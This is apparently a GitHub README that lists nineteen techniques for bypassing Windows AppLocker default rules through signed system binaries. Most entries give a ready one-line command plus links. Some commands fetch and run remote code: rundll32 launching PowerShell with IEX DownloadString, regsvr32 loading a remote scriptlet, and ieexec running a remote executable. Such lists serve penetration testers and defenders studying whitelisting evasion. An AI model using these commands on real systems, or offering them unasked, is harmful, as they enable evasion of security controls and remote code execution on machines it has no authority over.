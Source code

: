 # Ultimate AppLocker ByPass List
The goal of this repository is to document the most common techniques to bypass AppLocker. 
These bypass techniques are based on the "Create Default Rules" in AppLocker.
Please contribute and do point out errors or resources I have forgotten.


## 1. Rundll32.exe

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32 shell32.dll,Control_RunDLL payload.dll

Links:  
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7


## 2. Regsvr32.exe

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

Links:  
https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302



## 3. Msbuild.exe

msbuild.exe pshell.xml

Links:  
https://gist.github.com/subTee/6b236083da2fd6ddff216e434f257614
http://subt0x10.blogspot.no/2017/04/bypassing-application-whitelisting.html
https://github.com/Cn33liz/MSBuildShell
https://github.com/Cn33liz/MS17-012
https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
https://www.youtube.com/watch?v=aSDEAPXaz28



## 4. Regsvcs.exe

regsvcs.exe /U regsvcs.dll
regsvcs.exe regsvcs.dll

Links:  
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs



## 5. Regasm.exe

regasm.exe /U regsvcs.dll
regasm.exe regsvcs.dll

Links:  
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs



## 6. Bginfo.exe

bginfo.exe bginfo.bgi /popup /nolicprompt

Links:  
https://msitpros.com/?p=3831
https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
https://msitpros.com/?p=3860



## 7. InstallUtil.exe

InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

Links:  
https://github.com/subTee/AllTheThings
https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12



## 8. MSDT.exe

Open .diagcab package

Links:  
https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/



## 9. mshta.exe

mshta.exe evilfile.hta

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4



## 10. Execute .Bat

cmd.exe /k < script.txt

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



## 11. Execute .PS1

Get-Content script.txt | iex

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



## 12. Execute .VBS

cscript.exe //E:vbscript script.txt

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3



## 13. PresentationHost.exe

Missing Example

Links:  
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 14. dfsvc.exe

Missing Example

Links:  
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 15. IEExec.exe

ieexec.exe http://x.x.x.x:8080/bypass.exe

Links:  
https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/



## 16. cdb.exe

cdb.exe -cf x64_calc.wds -o notepad.exe

Links:  
http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html


## 17. dnx.exe

dnx.exe consoleapp

Links:  
https://enigma0x3.net/2016/11/17/bypassing-application-whitelisting-by-using-dnx-exe/



## 18. rcsi.exe

rcsi.exe bypass.csx

Links:  
https://enigma0x3.net/2016/11/21/bypassing-application-whitelisting-by-using-rcsi-exe/



## 19. csi.exe

Missing example

Links:  
https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html


